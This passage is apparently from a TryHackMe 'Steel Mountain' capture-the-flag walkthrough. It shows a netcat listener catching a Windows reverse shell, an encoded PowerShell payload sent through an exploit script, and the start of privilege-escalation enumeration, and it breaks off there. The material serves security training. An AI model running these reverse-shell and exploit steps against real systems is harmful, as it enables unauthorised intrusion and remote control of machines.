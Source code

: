 At the listener, I have reverse shell

```
┌──(Hades㉿10.11.32.198)-[1.9:27.3]~
└─$ sudo nc -nvlp 443               
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.11.32.198] from (UNKNOWN) [10.10.232.100] 49346
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>whoami
whoami
steelmountain\bill
```

Reverse using powershell encode

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/tryhackme/steelmountain)

Create ecoded powershell payload and copy it to clipboard

```
┌──(Hades㉿10.11.32.198)-[1.1:22.3]~/walkthrough/tryhackme/steelmountain
└─$ cat pwsh.ps1 | iconv -t UTF-16LE | base64 -w 0 | cs
```

Sent and execute payload

```
┌──(Hades㉿10.11.32.198)-[1.1:21.6]~/walkthrough/tryhackme/steelmountain
└─$ python3 49125.py 10.10.106.253 8080 "powershell -enc $(vs)" > /dev/null
```

At listener, I have reverse shell

```
┌──(Hades㉿10.11.32.198)-[1.1:21.9]~
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.11.32.198] from (UNKNOWN) [10.10.106.253] 49467

PS C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup> whoami
steelmountain\bill
```

## Privilege Escalation

### Local Enumeration

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/tryhackme/steelmountain)

After enum local machine, I saw that the application `IObit` has been installed.

```
PS C:\Program Files (x86)> dir | GET-ACL
<snip> 
IObit                                   BUILTIN\Administrators                  STEELMOUNTAIN\bill Allow  Write, Rea...
<snip>
```
